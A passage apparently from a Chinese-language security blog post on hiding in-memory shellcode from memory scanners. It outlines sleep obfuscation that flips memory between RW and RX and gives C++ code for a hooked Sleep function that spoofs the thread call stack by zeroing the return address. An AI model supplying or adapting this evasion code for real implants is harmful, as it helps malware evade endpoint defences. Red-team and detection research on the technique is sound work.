   

1.  Hook Sleep 函数
    
2.  定位内存中的shellcode
    
3.  睡眠期间翻转为RW
    
4.  睡眠结束翻转为RX
    
5.  无限循环，以此规避内存扫描
    

-   线程堆栈欺骗：欺骗线程堆栈返回地址
    
    默认情况下，线程的返回地址指向我们驻留在内存中的shellcode，通过检查可疑进程中线程的返回地址，可以轻松识别到内存中的shellcode
    
      
    
    最简单的方法，直接用0覆盖返回地址，从而截断堆栈
    
    关键代码
    

```plain
void WINAPI MySleep(DWORD _dwMilliseconds)
{
    const register DWORD dwMilliseconds = _dwMilliseconds;

    // Perform this (current) thread call stack spoofing.
    PULONG_PTR overwrite = (PULONG_PTR)_AddressOfReturnAddress();
    const register ULONG_PTR origReturnAddress = *overwrite;

    log("[>] Original return address: 0x", std::hex, std::setw(8), std::setfill('0'), origReturnAddress, ". Finishing call stack...");
    *overwrite = 0;

    log("\n===> MySleep(", std::dec, dwMilliseconds, ")\n");

    // Perform sleep emulating originally hooked functionality.
    ::SleepEx(dwMilliseconds, false);

    // Restore original thread's call stack.
    log("[<] Restoring original return address...");
    *overwrite = origReturnAddress;
}
```

效果对比：

默认线程调用堆栈：

![图片](assets/1699494032-fc03d9dc7c421cdb778bc4ac29f23cb0.png)

